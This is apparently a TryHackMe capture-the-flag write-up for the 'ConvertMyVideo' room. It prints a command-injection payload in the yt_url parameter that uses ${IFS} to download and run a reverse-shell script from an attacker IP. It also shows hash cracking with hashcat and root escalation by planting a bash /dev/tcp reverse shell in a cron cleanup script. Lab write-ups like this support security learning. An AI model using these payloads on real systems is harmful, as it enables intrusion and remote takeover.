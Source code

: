 ```yaml
---
title: ConvertMyVideo
description: 'Remote file execution through an api'
pubDate: 2023-12-21
category: 'tryhackme'
tags: ['IFS']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/44f87b4bb655d754fc1f8bc6223d06d7.png'
---
```


We can upload an arbitrary file to the server. The file `x` contains a bash reverse shell.
Spaces are not allowed but we can use `${IFS}` (Internal Field Separator) in bash.

```
yt_url=;curl${IFS}10.8.119.137:8000/x${IFS}-O${IFS}x
```

Now execute the script:
```
yt_url=;bash${IFS}x
```

We find `itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`

Cracking it with hashcat:
```bash
hashcat --username hash /usr/share/wordlists/rockyou.txt
...[snip]...
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/:jessie
...[snip]...
```

Running pspy shows the cleanup script runs (UID=0 is root):
```bash
2023/12/21 20:35:01 CMD: UID=0     PID=26200  | bash /var/www/html/tmp/clean.sh
```

The www-data user can edit this file and add a reverse shell:
```bash
bash -i >& /dev/tcp/10.8.119.137/4444 0>&1
```
